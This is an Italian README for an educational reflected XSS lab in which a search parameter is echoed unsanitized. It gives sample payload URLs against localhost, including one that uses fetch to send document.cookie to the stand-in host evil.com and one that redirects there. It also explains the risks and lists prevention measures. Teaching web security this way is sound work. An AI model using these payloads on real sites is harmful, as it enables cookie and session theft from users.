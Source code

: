 # Challenge 1 - Reflected XSS

Questa challenge è stata creata per dimostrare il concetto di Cross-Site Scripting (XSS) Reflected, un tipo di vulnerabilità web che permette l'iniezione di codice JavaScript malevolo.

## Obiettivo
Lo scopo di questa challenge non è trovare una flag specifica, ma comprendere come funziona un attacco XSS Reflected e come può essere utilizzato per eseguire codice JavaScript arbitrario nel contesto di una pagina web.

## Come funziona
La challenge presenta un'applicazione web con una funzionalità di ricerca. Il parametro `q` nella query string viene riflesso direttamente nella pagina HTML senza alcuna sanitizzazione.

## Esempio di attacco
Puoi provare a iniettare codice JavaScript in diversi modi:

1. Alert semplice:
```
http://localhost:801/?q=<script>alert(1)</script>
```

2. Visualizzare i cookie:
```
http://localhost:801/?q=<script>alert(document.cookie)</script>
```

3. Redirect a un altro sito:
```
http://localhost:801/?q=<script>window.location.href="https://evil.com"</script>
```

4. Inviare dati a un server controllato dall'attaccante:
```
http://localhost:801/?q=<script>fetch('https://evil.com?cookie='+document.cookie)</script>
```

## Come funziona l'attacco
1. L'utente inserisce del codice JavaScript malevolo nel campo di ricerca
2. Il server riflette questo input direttamente nella pagina HTML
3. Il browser interpreta il JavaScript riflesso come codice eseguibile
4. Il codice viene eseguito nel contesto della pagina web

## Implicazioni di sicurezza
- Il codice JavaScript viene eseguito nel contesto della pagina web
- Può accedere a:
  - Cookie del dominio
  - DOM della pagina
  - Local Storage
  - Session Storage
  - E altre risorse accessibili via JavaScript

## Prevenzione
Per prevenire attacchi XSS, è importante:
1. Sanitizzare tutti gli input utente
2. Utilizzare escape appropriati per i dati riflessi
3. Implementare Content Security Policy (CSP)
4. Utilizzare framework che gestiscono automaticamente la sanitizzazione

## Note
Questa è una challenge didattica che dimostra un concetto base di sicurezza web. In un ambiente reale, queste vulnerabilità potrebbero essere sfruttate per:
- Furto di cookie
- Furto di dati sensibili
- Manipolazione del DOM
- Reindirizzamenti malevoli
- Esecuzione di azioni non autorizzate

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/xss-ch1
docker run -p 80:80 ghcr.io/ax3lt/xss-ch1
```

Buona fortuna! 🚀🔓
